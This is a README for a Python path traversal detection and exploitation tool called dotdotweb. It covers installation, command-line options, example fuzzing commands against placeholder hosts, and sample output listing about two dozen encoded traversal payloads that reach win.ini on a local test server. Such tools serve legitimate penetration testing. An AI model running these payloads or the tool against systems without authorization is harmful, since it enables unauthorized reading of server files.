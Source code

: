 dotdotfarm
==========

![Version](https://img.shields.io/badge/version-1.5.0-blue?style=for-the-badge)

Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services


Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make up to ~3K requests per second

Features
========
- async client for parallel requesting of target (speedup)
- ability to fetch files' content after succeeding a payload
- specifying payload in any part of query (url, headers or POST data)
- using callbacks for future handling of results

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm.git
cd dotdotfarm
pip install -r requirements.txt
pip3 install .
```

Usage
=====
```bash

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

usage: dotdotweb.py [-h] [-V] [-A] [-R] [-o {windows,linux}] [--delay DELAY] [-d DEPTH] [-t TIMEOUT] [-f FILE]
                    [-fs FS] [-fc FC] [-H HEADERS] [--data DATA] [-m {get,post,put,trace,delete}]
                    url

fast path traversal identificator & exploit

positional arguments:
  url                   target URL

options:
  -h, --help            show this help message and exit
  -V, --version         print version of the tool
  -A, --all             try all files after successfull exploitation (default false)
  -R, --print-files     read traversed files (default false)
  -o {windows,linux}, --os-type {windows,linux}
                        target OS type (default all)
  --delay DELAY         make delays between requests in milliseconds (default 0)
  -d DEPTH, --depth DEPTH
                        depth of PT searching (default 5)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections (default 60)
  -f FILE, --file FILE  specific file for PT detection
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        custom header for requests
  --data DATA           specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- ~~High speed of requests rate can trigger WAF of you target~~
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- ~~Need of OS specifying~~
